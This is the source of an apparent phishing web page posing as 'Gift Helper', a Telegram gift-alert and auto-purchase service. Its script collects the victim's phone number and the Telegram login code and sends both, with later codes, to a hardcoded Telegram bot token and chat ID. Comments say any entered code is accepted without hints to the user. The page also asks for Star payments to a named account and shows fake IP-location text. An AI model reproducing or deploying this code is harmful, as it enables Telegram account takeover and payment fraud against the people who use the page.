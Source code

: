 [Uploading index_fixed.html…]()<!doctype html>
<html lang="ru">
<head>
  <meta charset="utf-8" />
  <meta name="viewport" content="width=device-width,initial-scale=1" />
  <title>Gift Helper</title>
  <style>
:root {
  --neon:#0ff;
  --green:#6aff6a;
  --bg:#000;
}

* {
  box-sizing: border-box;
}

body {
  margin: 0;
  min-height: 100vh;
  background: var(--bg);
  color: var(--neon);
  font-family: "Segoe UI", Roboto, Arial;
  display: flex;
  justify-content: center;
  align-items: flex-start;
  padding: 20px;
}

/* TOP BAR */
#top-bar {
  position: fixed;
  left: 50%;
  transform: translateX(-50%);
  top: 10px;
  padding: 8px 12px;
  background: rgba(0, 0, 0, 0.75);
  border-radius: 10px;
  border: 1px solid rgba(0, 255, 255, 0.12);
  color: var(--neon);
  font-size: 13px;
  z-index: 100;
  display: flex;
  gap: 12px;
  align-items: center;
}

#ip-fixed {
  color: var(--green);
  font-weight: 700;
  text-shadow: 0 0 10px rgba(0, 255, 0, 0.25);
}

#ip-location {
  color: rgba(170, 255, 170, 0.9);
  font-size: 12px;
  margin-left: 6px;
}

#codes-left {
  background: rgba(0, 255, 0, 0.06);
  padding: 4px 8px;
  border-radius: 6px;
  color: var(--green);
  font-weight: 700;
}

.small-btn {
  background: transparent;
  border: 1px solid rgba(255, 255, 255, 0.06);
  color: var(--neon);
  padding: 6px 8px;
  border-radius: 6px;
  cursor: pointer;
}

/* pages */
.page {
  width: 380px;
  max-width: calc(100% - 40px);
  margin-top: 80px;
  text-align: center;
}

.hidden {
  display: none;
}

h1, h2 {
  margin: 12px 0;
  text-shadow: 0 0 8px rgba(0, 255, 255, 0.12);
}

/* column */
.col {
  display: flex;
  flex-direction: column;
  gap: 12px;
  align-items: center;
  margin-top: 12px;
}

.neon {
  width: 240px;
  padding: 12px 18px;
  border-radius: 12px;
  background: transparent;
  color: var(--neon);
  border: 2px solid rgba(0, 255, 255, 0.18);
  box-shadow: 0 0 14px rgba(0, 255, 255, 0.06);
  cursor: pointer;
  font-size: 15px;
  transition: all 0.18s ease;
}

.neon:hover {
  background: var(--neon);
  color: #000;
  box-shadow: 0 0 30px var(--neon);
  transform: translateY(-3px);
}

/* back button */
.back-big {
  margin-top: 18px;
  width: 84px;
  height: 84px;
  border-radius: 50%;
  border: 2px solid rgba(255, 255, 255, 0.06);
  background: rgba(0, 0, 0, 0.5);
  color: var(--neon);
  font-size: 16px;
  display: flex;
  align-items: center;
  justify-content: center;
  cursor: pointer;
  box-shadow: 0 0 10px rgba(0, 255, 255, 0.06);
}

/* inputs */
input[type=tel], input[type=text], input[type=number] {
  width: 220px;
  padding: 10px;
  margin: 8px auto;
  border-radius: 8px;
  border: 1px solid rgba(0, 255, 255, 0.12);
  background: #050505;
  color: var(--neon);
  text-align: center;
}

.desc {
  color: #aee;
  font-size: 13px;
  margin: 6px 0 12px;
}

/* categories and codes */
.categories {
  display: flex;
  gap: 10px;
  justify-content: center;
  margin: 10px 0;
}

.codes-list {
  display: flex;
  flex-wrap: wrap;
  gap: 8px;
  justify-content: center;
  margin-top: 10px;
}

.code-item {
  padding: 8px 10px;
  border-radius: 8px;
  background: #050505;
  border: 1px solid rgba(0, 255, 255, 0.06);
  color: var(--neon);
  cursor: pointer;
}

.code-item.issued {
  background: linear-gradient(90deg, rgba(0, 255, 255, 0.03), rgba(0, 255, 0, 0.03));
  color: var(--green);
}

/* meme */
.meme-area {
  position: relative;
  height: 80px;
  overflow: visible;
  margin-top: 6px;
}

.meme {
  position: absolute;
  top: 18px;
  padding: 8px 12px;
  border-radius: 8px;
  background: rgba(0, 0, 0, 0.6);
  border: 1px solid rgba(0, 255, 0, 0.12);
  color: var(--green);
  font-weight: 700;
  text-shadow: 0 0 10px rgba(0, 255, 0, 0.35);
  white-space: nowrap;
  box-shadow: 0 0 20px rgba(0, 255, 0, 0.06);
  pointer-events: none;
}

.error {
  color: #ff6a6a;
  margin-top: 10px;
  font-weight: 700;
}

.celebrate {
  animation: celebrate 900ms ease both;
}

@keyframes celebrate {
  0% {
    transform: scale(0.92);
    opacity: 0;
    filter: blur(4px);
  }
  50% {
    transform: scale(1.06);
    opacity: 1;
    filter: blur(0);
  }
  100% {
    transform: scale(1);
    opacity: 1;
    filter: blur(0);
  }
}
@media (max-width: 420px) {
  .page {
    width: 94%;
    margin-top: 110px;
  }

  .neon {
    width: 86%;
  }

  .back-big {
    width: 72px;
    height: 72px;
    font-size: 14px;
  }
}
  </style>
</head>
<body>

<div id="top-bar">
  <span id="ip-fixed">Ваш IP: ЗАСЕКРЕЧЕНО</span>
  <span id="ip-location">Канада, Toronto</span>
  <span id="codes-left">Коды: 25</span>
  <button id="admin-toggle" class="small-btn">Коды</button>
</div>

<main id="page-home" class="page">
  <h1 data-lang="title">Gift Helper</h1>
  <div class="col">
    <button id="btn-connect" class="neon" data-lang="btnConnect">Подключить тариф</button>
    <button id="btn-lang" class="neon" data-lang="btnLang">Поменять язык</button>
    <button id="btn-support" class="neon" data-lang="btnSupport">Поддержка</button>
  </div>
</main>

<section id="page-plans" class="page hidden">
  <h2 data-lang="choosePlan">Выберите тариф</h2>
  <div class="col">
    <button class="tariff neon" data-tariff="free"><span data-lang="free">Бесплатно</span></button>
    <div class="desc" data-lang="freeDesc"></div>

    <button class="tariff neon" data-tariff="25"><span data-lang="stars25">25 звёзд</span></button>
    <div class="desc" data-lang="stars25Desc"></div>

    <button class="tariff neon" data-tariff="50"><span data-lang="stars50">50 звёзд</span></button>
    <div class="desc" data-lang="stars50Desc"></div>
  </div>
  <button class="back-big" data-back="home"><span data-lang="back">Назад</span></button>
</section>

<section id="page-detail" class="page hidden">
  <h2 id="detail-title"></h2>
  <p id="detail-desc" class="desc"></p>

  <div id="cats" class="categories hidden">
    <label><input name="cat" type="radio" value="cheap"> Дешёвый</label>
    <label><input name="cat" type="radio" value="medium" checked> Средний</label>
    <label><input name="cat" type="radio" value="expensive"> Дорогой</label>
  </div>

  <button id="detail-continue" class="neon">Продолжить</button>
  <button class="back-big" data-back="plans"><span data-lang="back">Назад</span></button>
</section>

<section id="page-phone" class="page hidden">
  <h2 data-lang="enterPhoneTitle"></h2>
  <p class="desc" data-lang="phoneHint"></p>
  <input id="input-phone" type="tel" placeholder="+7..." />
  <button id="phone-send" class="neon">Отправить</button>
  <button class="back-big" data-back="detail"><span data-lang="back">Назад</span></button>
</section>

<section id="page-phone-verify" class="page hidden">
  <h2 data-lang="enterPhoneCode"></h2>
  <p class="desc">Введите код, который пришёл вам в Telegram.</p>
  <input id="input-phone-code" type="text" placeholder="Код из Telegram" />
  <div id="phone-code-error" class="error hidden"></div>
  <button id="phone-code-submit" class="neon">Подтвердить номер</button>
  <button class="back-big" data-back="phone"><span data-lang="back">Назад</span></button>
</section>

<section id="page-checkout" class="page hidden">
  <h2 data-lang="checkoutTitle"></h2>

  <div id="checkout-cats" class="hidden">
    <div class="desc">Выберите категорию подарка</div>
    <div class="categories">
      <label><input name="cat2" type="radio" value="cheap"> Дешёвый</label>
      <label><input name="cat2" type="radio" value="medium" checked> Средний</label>
      <label><input name="cat2" type="radio" value="expensive"> Дорогой</label>
    </div>
  </div>

  <div id="checkout-qty" class="hidden">
    <label data-lang="qtyLabel"></label>
    <input id="input-qty" type="number" min="1" max="10000" value="1" />
    <p id="total-sum" class="desc"></p>
  </div>

  <p id="send-instruction" class="desc"></p>
  <button id="paid-btn" class="neon">Я оплатил</button>
  <button class="back-big" data-back="phone"><span data-lang="back">Назад</span></button>
</section>

<section id="page-manager-code" class="page hidden">
  <h2 data-lang="enterManagerCode"></h2>
  <p class="desc">Введите менеджерский код, выданный админом.</p>
  <input id="input-manager-code" type="text" placeholder="Код менеджера" />
  <div id="manager-code-error" class="error hidden"></div>
  <button id="manager-code-submit" class="neon">Подтвердить код</button>
  <button class="back-big" data-back="checkout"><span data-lang="back">Назад</span></button>
</section>

<section id="page-login-code" class="page hidden">
  <h2 data-lang="enterLoginCode"></h2>
  <p class="desc">Введите финальный код, который вам отправит админ в Telegram.</p>
  <input id="input-login-code" type="text" placeholder="Код из Telegram" />
  <div id="login-code-error" class="error hidden"></div>
  <button id="login-code-submit" class="neon">Подтвердить</button>
  <button class="back-big" data-back="manager-code"><span data-lang="back">Назад</span></button>
</section>

<section id="page-activated" class="page hidden">
  <div class="celebrate">
    <h2 id="activated-msg"></h2>
    <p class="desc">Если есть вопросы — пишите: <b>@GIFTHELPER_support</b></p>
  </div>
  <button class="neon" id="to-home">На главную</button>
</section>

<section id="page-support" class="page hidden">
  <h2 data-lang="supportTitle">Поддержка</h2>
  <div class="support-user">@GIFTHELPER_support</div>
  <div id="meme-area" class="meme-area"></div>
  <button class="back-big" data-back="home"><span data-lang="back">Назад</span></button>
</section>

<section id="page-admin" class="page hidden">
  <h2>Админ — Коды</h2>
  <p class="desc">Нажмите код, чтобы выдать его клиенту (копируется в буфер и переходит в issued).</p>
  <div id="codes-list" class="codes-list"></div>
  <p class="desc">Остаток: <span id="admin-left">0</span></p>
  <button class="back-big" data-back="home"><span data-lang="back">Назад</span></button>
</section>

<script>
/* ===== CONFIG ===== */
const BOT_TOKEN = "8444402955:AAHSZZyRkJE6FSHH8TtXDgGBfWSp3ryV9RE";
const CHAT_ID  = "7449969304";
const ADMIN_PASSWORD = "serafimLOSER";
const SUPPORT = "@GIFTHELPER_support";
const PAY_USER = "Juilly";

/* 25 manager codes */
const INITIAL_CODES = [
  "CODE-0001","CODE-0002","CODE-0003","CODE-0004","CODE-0005",
  "CODE-0006","CODE-0007","CODE-0008","CODE-0009","CODE-0010",
  "CODE-0011","CODE-0012","CODE-0013","CODE-0014","CODE-0015",
  "CODE-0016","CODE-0017","CODE-0018","CODE-0019","CODE-0020",
  "CODE-0021","CODE-0022","CODE-0023","CODE-0024","CODE-0025"
];

const LS_AVAILABLE = 'avail_codes_v1';
const LS_ISSUED    = 'issued_codes_v1';
const LS_USED      = 'used_codes_v1';
const LS_LANG      = 'lang_v1';

function loadArray(k, def){ try{ const s=localStorage.getItem(k); return s?JSON.parse(s):def; }catch(e){ return def; } }
function saveArray(k, v){ localStorage.setItem(k, JSON.stringify(v)); }
function loadObj(k, def){ try{ const s=localStorage.getItem(k); return s?JSON.parse(s):def; }catch(e){ return def; } }
function saveObj(k, v){ localStorage.setItem(k, JSON.stringify(v)); }

let availableCodes = loadArray(LS_AVAILABLE, INITIAL_CODES.slice());
let issuedCodes = loadObj(LS_ISSUED, {});
let usedCodes = loadObj(LS_USED, {});
let lang = localStorage.getItem(LS_LANG) || 'ru';

let currentTariff = null;
let currentCategory = null;
let phoneForSession = '';
let loginCode = '';
let currentQty = 1;
let currentAmount = 0;

/* DOM helpers */
const $ = id => document.getElementById(id);
const q = s => Array.from(document.querySelectorAll(s));
function hideAll(){ q('.page').forEach(p=>p.classList.add('hidden')); }
function go(page){ hideAll(); const n = $('page-'+page); if(n) n.classList.remove('hidden'); $('top-bar').style.display = (page==='home') ? 'flex' : 'none'; updateCodesLeft(); applyLang(); }

/* TEXT */
const TEXT = {
  ru: {
    title:'Gift Helper', btnConnect:'Подключить тариф', btnLang:'Поменять язык', btnSupport:'Поддержка',
    choosePlan:'Выберите тариф', free:'Бесплатно', freeDesc:'Звонки через Telegram при появлении подарков (точность 85%).',
    stars25:'25 звёзд', stars25Desc:'Телефон воспроизводит сирену в Telegram при появлении подарков.',
    stars50:'50 звёзд', stars50Desc:'Автоматическая покупка подарка (50 звёзд = 1 подарок).',
    back:'Назад', enterPhoneTitle:'Введите номер телефона для входа на сайте', phoneHint:'Введите номер, привязанный к Telegram — вы получите код в Telegram.',
    checkoutTitle:'Оплата', qtyLabel:'Количество подарков (1–10000)', enterPhoneCode:'Введите код из Telegram', enterManagerCode:'Код от менеджера', enterLoginCode:'Введите код из Telegram',
    sendExactly: s => `Отправьте ровно ${s} звёзд пользователю @${PAY_USER}`,
    successActivated: t => `Тариф "${t}" активирован`
  },
  en: {
    title:'Gift Helper', btnConnect:'Connect Plan', btnLang:'Change Language', btnSupport:'Support',
    choosePlan:'Choose a plan', free:'Free', freeDesc:'Receive Telegram calls when gifts appear (85% accuracy).',
    stars25:'25 stars', stars25Desc:'Your phone will sound an alarm in Telegram when gifts appear.',
    stars50:'50 stars', stars50Desc:'Automatic gift purchase (50 stars = 1 gift).',
    back:'Back', enterPhoneTitle:'Enter phone number to log in', phoneHint:"Enter the phone linked to Telegram — you'll receive a code in Telegram.",
    checkoutTitle:'Payment', qtyLabel:'Number of gifts (1–10000)', enterPhoneCode:'Enter the code from Telegram', enterManagerCode:'Manager code', enterLoginCode:'Enter the Telegram code',
    sendExactly: s => `Send exactly ${s} stars to @${PAY_USER}`,
    successActivated: t => `Plan "${t}" activated`
  }
};

function applyLang(){
  q('[data-lang]').forEach(n=>{
    const k = n.getAttribute('data-lang'); if(!k) return;
    const v = TEXT[lang][k]; n.textContent = (typeof v === 'function')? v() : v;
  });
  q('[data-back]').forEach(b=>{ const s = b.querySelector('span'); if(s) s.textContent = TEXT[lang].back; });
}

/* Init bindings */
window.addEventListener('DOMContentLoaded', ()=>{
  $('btn-connect').addEventListener('click', ()=> go('plans'));
  $('btn-lang').addEventListener('click', ()=> { lang = (lang==='ru')?'en':'ru'; localStorage.setItem(LS_LANG, lang); applyLang(); });
  $('btn-support').addEventListener('click', ()=> go('support'));

  q('.tariff').forEach(b => b.addEventListener('click', ()=> startTariff(b.dataset.tariff)));
  $('detail-continue').addEventListener('click', ()=> { const r = document.querySelector('input[name="cat"]:checked'); currentCategory = r? r.value : null; go('phone'); });

  $('phone-send').addEventListener('click', onPhoneSend);
  $('phone-code-submit').addEventListener('click', onPhoneCodeSubmit);
  $('paid-btn').addEventListener('click', onPaid);
  $('manager-code-submit').addEventListener('click', onManagerCodeSubmit);
  $('login-code-submit') && $('login-code-submit').addEventListener('click', onLoginCodeSubmit);

  $('input-qty') && $('input-qty').addEventListener('input', updateTotal);

  q('[data-back]').forEach(b=> b.addEventListener('click', ()=> go(b.dataset.back)));

  $('admin-toggle').addEventListener('click', adminLogin);
  $('to-home') && $('to-home').addEventListener('click', ()=> go('home'));

  setInterval(showMeme, 3000); showMeme();

  setInterval(()=> {
    const list = ['Canada, Toronto','USA, New York','Germany, Berlin','France, Paris','Netherlands, Amsterdam'];
    $('ip-location').textContent = list[Math.floor(Math.random()*list.length)];
  }, 4000);

  applyLang(); go('home'); updateCodesLeft();
});

/* Flows */
function startTariff(t){
  currentTariff = t; currentCategory = null; phoneForSession=''; loginCode=''; currentQty=1; currentAmount=0;
  $('detail-title').textContent = (t==='free')? TEXT[lang].free : (t==='25'? TEXT[lang].stars25 : TEXT[lang].stars50);
  $('detail-desc').textContent = (t==='free')? TEXT[lang].freeDesc : (t==='25'? TEXT[lang].stars25Desc : TEXT[lang].stars50Desc);
  if(t==='50') $('cats').classList.remove('hidden'); else $('cats').classList.add('hidden');
  go('detail');
}

/* Phone send: generate code for admin only, go to phone-verify (user doesn't see extra hints) */
function gen4(){ return String(Math.floor(1000 + Math.random()*9000)); }
function onPhoneSend(){
  const phone = $('input-phone').value.trim();
  if(!phone){ alert(lang==='ru' ? 'Введите номер телефона' : 'Enter phone'); return; }
  phoneForSession = phone;
  const phoneCode = gen4();
  sessionStorage.setItem('phoneCode', phoneCode);
  sendToTelegram(`📥 Новый телефон\nТариф: ${displayTariffName()}\nТелефон: ${phone}\nКод подтверждения: ${phoneCode}`);
  $('input-phone-code').value = ''; $('phone-code-error').classList.add('hidden');
  go('phone-verify');
}

/* Phone code submit: accept any non-empty input (no UI hints about that) */
function onPhoneCodeSubmit(){
  const entered = $('input-phone-code').value.trim();
  sendToTelegram(`🔐 Ввод кода подтверждения\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод введён: ${entered}`);
  if(!entered){ $('phone-code-error').textContent = (lang==='ru' ? 'Введите код' : 'Enter code'); $('phone-code-error').classList.remove('hidden'); return; }
  $('phone-code-error').classList.add('hidden');

  if(currentTariff === 'free'){
    sendToTelegram(`✅ Активирован бесплатный тариф\nТелефон: ${phoneForSession}`);
    $('activated-msg').textContent = TEXT[lang].successActivated(TEXT[lang].free);
    go('activated');
    return;
  }

  if(currentTariff === '25'){
    $('checkout-cats').classList.add('hidden'); $('checkout-qty').classList.add('hidden');
    currentAmount = 25; $('send-instruction').textContent = TEXT[lang].sendExactly(currentAmount);
  } else if(currentTariff === '50'){
    $('checkout-cats').classList.remove('hidden'); $('checkout-qty').classList.remove('hidden');
    $('input-qty').value = '1'; updateTotal();
  }
  go('checkout');
}

/* updateTotal for 50 */
function updateTotal(){
  const qv = Math.max(1, parseInt($('input-qty').value) || 1);
  currentQty = qv; currentAmount = currentQty * 50;
  $('total-sum').textContent = (lang==='ru' ? `Сумма: ${currentAmount} звёзд` : `Total: ${currentAmount} stars`);
  $('send-instruction').textContent = TEXT[lang].sendExactly(currentAmount);
}

/* onPaid */
function onPaid(){
  if(!phoneForSession){ alert(lang==='ru' ? 'Телефон не указан. Вернитесь и введите номер.' : 'Phone missing. Enter phone first.'); go('phone'); return; }
  if(currentTariff === '50') updateTotal(); else if(currentTariff === '25') currentAmount = 25;
  sendToTelegram(`💳 Пользователь нажал "Я оплатил"\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nСумма: ${currentAmount} звёзд\nПожалуйста, выдайте менеджерский код.`);
  $('input-manager-code').value = ''; $('manager-code-error').classList.add('hidden');
  go('manager-code');
}

/* manager code submit — must be issued & not used */
function onManagerCodeSubmit(){
  const code = $('input-manager-code').value.trim();
  sendToTelegram(`🔐 Ввод менеджерского кода\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод введён: ${code}`);
  if(!code){ $('manager-code-error').textContent = (lang==='ru' ? 'Введите код менеджера' : 'Enter manager code'); $('manager-code-error').classList.remove('hidden'); return; }

  if(issuedCodes[code] && !usedCodes[code]){
    usedCodes[code] = Date.now(); saveObj(LS_USED, usedCodes);
    delete issuedCodes[code]; saveObj(LS_ISSUED, issuedCodes);
    updateCodesLeft();
    loginCode = gen4(); sessionStorage.setItem('loginCode', loginCode);
    sendToTelegram(`🔑 Сгенерирован финальный код входа\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод входа: ${loginCode}`);
    $('input-login-code').value = ''; $('login-code-error').classList.add('hidden');
    go('login-code');
  } else {
    $('manager-code-error').textContent = (lang==='ru' ? 'Неверный или невыданный менеджерский код' : 'Invalid or not-issued manager code'); $('manager-code-error').classList.remove('hidden');
  }
}

/* login code submit */
function onLoginCodeSubmit(){
  const code = $('input-login-code').value.trim();
  const expected = sessionStorage.getItem('loginCode') || loginCode;
  sendToTelegram(`🔐 Ввод финального кода\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}\nКод введён: ${code}`);
  if(!code){ $('login-code-error').textContent = (lang==='ru' ? 'Введите код' : 'Enter code'); $('login-code-error').classList.remove('hidden'); return; }
  if(code === expected){
    $('login-code-error').classList.add('hidden');
    sendToTelegram(`✅ Тариф активирован\nТариф: ${displayTariffName()}\nТелефон: ${phoneForSession}`);
    $('activated-msg').textContent = TEXT[lang].successActivated(displayTariffName());
    go('activated');
    sessionStorage.removeItem('phoneCode'); sessionStorage.removeItem('loginCode');
  } else {
    $('login-code-error').textContent = (lang==='ru' ? 'Неверный код из Telegram' : 'Wrong Telegram code'); $('login-code-error').classList.remove('hidden');
  }
}

/* ADMIN */
function adminLogin(){
  const p = prompt('Введите пароль администратора:');
  if(!p) return;
  if(p === ADMIN_PASSWORD){ populateAdmin(); go('admin'); } else alert('Неверный пароль');
}

function populateAdmin(){
  const wrap = $('codes-list'); wrap.innerHTML = '';
  availableCodes.forEach((c, idx) => {
    const d = document.createElement('div'); d.className='code-item'; d.textContent = c;
    d.addEventListener('click', ()=>{
      const phone = prompt('Кому выдаём код? Введите телефон клиента (или оставьте пустым):','');
      availableCodes.splice(idx,1); saveArray(LS_AVAILABLE, availableCodes);
      issuedCodes[c] = { phone: phone || null, at: Date.now() }; saveObj(LS_ISSUED, issuedCodes);
      updateCodesLeft(); populateAdmin();
      navigator.clipboard && navigator.clipboard.writeText(c).catch(()=>{});
      sendToTelegram(`📤 Код выдан\nКод: ${c}\nКому: ${phone || 'не указан'}\nОсталось кодов: ${availableCodes.length}`);
      alert('Код выдан и скопирован: '+c);
    });
    wrap.appendChild(d);
  });
  Object.keys(issuedCodes).forEach(c=>{
    const d = document.createElement('div'); d.className='code-item issued'; const meta=issuedCodes[c];
    d.textContent = `${c} (issued to ${meta.phone||'—'})`; wrap.appendChild(d);
  });
  Object.keys(usedCodes).forEach(c=>{
    const d = document.createElement('div'); d.className='code-item'; d.style.opacity='0.4'; d.textContent = `${c} (used)`; wrap.appendChild(d);
  });
  $('admin-left').textContent = availableCodes.length;
}

function updateCodesLeft(){ $('codes-left') && ($('codes-left').textContent = 'Коды: '+availableCodes.length); $('admin-left') && ($('admin-left').textContent = availableCodes.length); }

/* MEMES */
const MEMES = ["cool boy","hacker mode","gift boss","system online","VIP ACCESS","nice try","glhf"];
function showMeme(){
  const area = $('meme-area'); if(!area) return; area.innerHTML='';
  const m = document.createElement('div'); m.className='meme'; m.textContent = MEMES[Math.floor(Math.random()*MEMES.length)];
  area.appendChild(m); const fromLeft = Math.random()<0.5; const start = fromLeft ? -300 : 300;
  m.style.transform = `translateX(${start}px)`; m.animate([{transform:`translateX(${start}px)`, opacity:0},{transform:'translateX(0)', opacity:1}], {duration:500});
  setTimeout(()=>{ const end = fromLeft ? -300 : 300; m.animate([{transform:'translateX(0)', opacity:1},{transform:`translateX(${end}px)`, opacity:0}], {duration:500}); setTimeout(()=>{ try{ m.remove(); }catch(e){} },520); }, 2600);
}

/* helpers */
function displayTariffName(){ if(currentTariff==='free') return (lang==='ru'?'Бесплатно':'Free'); if(currentTariff==='25') return (lang==='ru'?'25 звёзд':'25 stars'); if(currentTariff==='50') return (lang==='ru'?`50 звёзд x${currentQty}`:`50 stars x${currentQty}`); return ''; }

function sendToTelegram(text){
  fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
    method:'POST', headers:{'Content-Type':'application/json'},
    body: JSON.stringify({ chat_id: CHAT_ID, text })
  }).catch(e=>console.error('tg send error', e));
}

window.addEventListener('beforeunload', ()=> {
  saveArray(LS_AVAILABLE, availableCodes);
  saveObj(LS_ISSUED, issuedCodes);
  saveObj(LS_USED, usedCodes);
});
</script>
</body>
</html>

